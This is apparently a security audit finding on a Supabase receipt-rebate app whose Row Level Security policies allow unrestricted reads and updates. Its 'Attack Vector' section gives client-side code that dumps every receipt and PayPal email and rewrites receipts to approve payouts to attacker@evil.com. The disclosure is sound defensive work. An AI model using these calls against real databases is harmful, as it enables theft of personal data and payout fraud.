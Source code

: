 **Issue:**
- Supabase Row Level Security (RLS) policies are overly permissive
- Multiple tables have `USING (true)` policies (allows ALL access)
- Client-side code uses public anon key with full database access
- No server-side query parameter validation

**Vulnerable RLS Policies:**
```sql
-- From supabase/migrations/001_initial_schema.sql

-- Line 54-56: Anyone can view ALL scans
CREATE POLICY "Anyone can view scans"
  ON scans FOR SELECT
  USING (true);  -- ❌ NO RESTRICTIONS!

-- Line 63-65: Anyone can view ALL receipts
CREATE POLICY "Users can view their own receipts"
  ON receipts FOR SELECT
  USING (true);  -- ❌ CLAIMS "own receipts" BUT ALLOWS ALL!

-- Line 71-73: Anyone can update ANY receipt
CREATE POLICY "Users can update their own receipts"
  ON receipts FOR UPDATE
  USING (true);  -- ❌ ALLOWS MODIFYING ANY RECEIPT!
```

**Attack Vector:**
```javascript
// Attacker can read ALL receipts (including PayPal emails)
const { data } = await supabase
  .from('receipts')
  .select('*')  // Gets EVERY receipt in database

// Attacker can modify ANY receipt (change status, amount, email)
await supabase
  .from('receipts')
  .update({
    status: 'approved',
    rebate_amount: 10000,
    paypal_email: 'attacker@evil.com'
  })
  .eq('id', anyReceiptId);  // Works on ANY receipt!

// Attacker can view all PayPal emails
const { data: emails } = await supabase
  .from('receipts')
  .select('paypal_email, rebate_amount');
// PII BREACH!
```

**Impact:**
- Complete data breach (all receipts, PayPal emails, purchase history)
- Attacker can modify receipt statuses to 'approved' or 'paid'
- Attacker can change payout amounts before processing
- GDPR violation (unauthorized PII access)
- Financial manipulation
